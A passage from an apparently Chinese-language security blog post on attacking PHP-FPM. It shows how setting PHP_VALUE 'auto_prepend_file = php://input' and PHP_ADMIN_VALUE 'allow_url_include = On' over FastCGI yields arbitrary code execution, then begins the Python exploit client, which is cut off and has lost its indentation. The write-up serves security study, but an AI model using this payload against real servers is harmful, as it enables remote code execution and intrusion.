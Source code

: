 那么就有趣了，假设我们设置`auto_prepend_file`为`php://input`，那么就等于在执行任何php文件前都要包含一遍POST的内容。所以，我们只需要把待执行的代码放在Body中，他们就能被执行了。（当然，还需要开启远程文件包含选项`allow_url_include`）

那么，我们怎么设置`auto_prepend_file`的值？

这又涉及到PHP-FPM的两个环境变量，`PHP_VALUE`和`PHP_ADMIN_VALUE`。这两个环境变量就是用来设置PHP配置项的，`PHP_VALUE`可以设置模式为`PHP_INI_USER`和`PHP_INI_ALL`的选项，`PHP_ADMIN_VALUE`可以设置所有选项。（`disable_functions`除外，这个选项是PHP加载的时候就确定了，在范围内的函数直接不会被加载到PHP上下文中）

所以，我们最后传入如下环境变量：

```
{
'GATEWAY_INTERFACE': 'FastCGI/1.0',
'REQUEST_METHOD': 'GET',
'SCRIPT_FILENAME': '/var/www/html/index.php',
'SCRIPT_NAME': '/index.php',
'QUERY_STRING': '?a=1&b=2',
'REQUEST_URI': '/index.php?a=1&b=2',
'DOCUMENT_ROOT': '/var/www/html',
'SERVER_SOFTWARE': 'php/fcgiclient',
'REMOTE_ADDR': '127.0.0.1',
'REMOTE_PORT': '12345',
'SERVER_ADDR': '127.0.0.1',
'SERVER_PORT': '80',
'SERVER_NAME': "localhost",
'SERVER_PROTOCOL': 'HTTP/1.1'
'PHP_VALUE': 'auto_prepend_file = php://input',
'PHP_ADMIN_VALUE': 'allow_url_include = On'
}
```

设置`auto_prepend_file = php://input`且`allow_url_include = On`，然后将我们需要执行的代码放在Body中，即可执行任意代码。

效果如下：

[![14931311523859.jpg](https://www.leavesongs.com/media/attachment/2017/04/25/e3c3329d-4e0e-4eec-9ea6-4e621cf01f9b.f4321b6236f8.jpg)](https://www.leavesongs.com/media/attachment/2017/04/25/e3c3329d-4e0e-4eec-9ea6-4e621cf01f9b.jpg)

## EXP编写

上图中用到的EXP，就是根据之前介绍的fastcgi协议来编写的，代码如下：https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75 。兼容Python2和Python3，方便在内网用。

代码：

```python
import socket
import random
import argparse
import sys
from io import BytesIO
import base64
import urllib
# Referrer: https://github.com/wuyunfeng/Python-FastCGI-Client
PY2 = True if sys.version_info.major == 2 else False
def bchr(i):
if PY2:
return force_bytes(chr(i))
else:
return bytes([i])
def bord(c):
if isinstance(c, int):
return c
else:
return ord(c)
def force_bytes(s):
```